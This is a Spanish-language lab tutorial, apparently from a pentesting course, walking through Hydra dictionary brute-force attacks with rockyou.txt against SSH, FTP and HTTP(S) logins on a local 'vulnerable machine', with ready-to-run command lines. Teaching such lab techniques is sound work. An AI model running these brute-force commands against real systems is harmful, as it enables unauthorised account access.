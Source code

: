 A continuación, usaremos un ataque hydra por diccionario para intentar acceder al servicio SSH de la máquina vulnerable. Para ello, utilizamos el siguiente comando:

```bash
hydra -l [Usuario] -P [Ruta al diccionario] ssh://[IP de la máquina vulnerable]
```

Encontraremos el archivo `rockyou.txt` en la ruta `/usr/share/wordlists/rockyou.txt.gz`, que es un diccionario muy utilizado para ataques de fuerza bruta.
Para descomprimirlo, usamos el siguiente comando:

```bash
gunzip /usr/share/wordlists/rockyou.txt.gz
```

```bash
hydra -l juan -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.199
```

si lo queremos hacer por FTP, usamos el siguiente comando:

```bash
hydra -l juan -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.199
```

si por casualidad queremos añadir el puerto solo debemos añadir al final del comando :[Puerto]

por ejemplo:

```bash
hydra -l juan -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.199:22
```

A continuación, dejamos más ejemplos de como realizar ataques de fuerza bruta a diferentes servicios utilizando Hydra:

En el caso de que queramos hacer un ataque de fuerza bruta a un servicio HTTP, podemos usar el siguiente comando:

```bash
hydra -l [Usuario] -P [Ruta al diccionario] http-get://[IP de la máquina vulnerable]/[Ruta del formulario]
```
Por ejemplo, si queremos atacar un formulario de inicio de sesión en una página web, podemos usar el siguiente comando:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt http-get://192.168.1.199
```

En este caso, estamos intentando acceder al servicio HTTP de la máquina vulnerable utilizando el usuario `admin` y el diccionario `rockyou.txt`.
Si queremos realizar un ataque de fuerza bruta a un servicio HTTPS, podemos usar el siguiente comando:

```bash
hydra -l [Usuario] -P [Ruta al diccionario] https-get://[IP de la máquina vulnerable]/[Ruta del formulario]
```
Por ejemplo, si queremos atacar un formulario de inicio de sesión en una página web segura, podemos usar el siguiente comando:
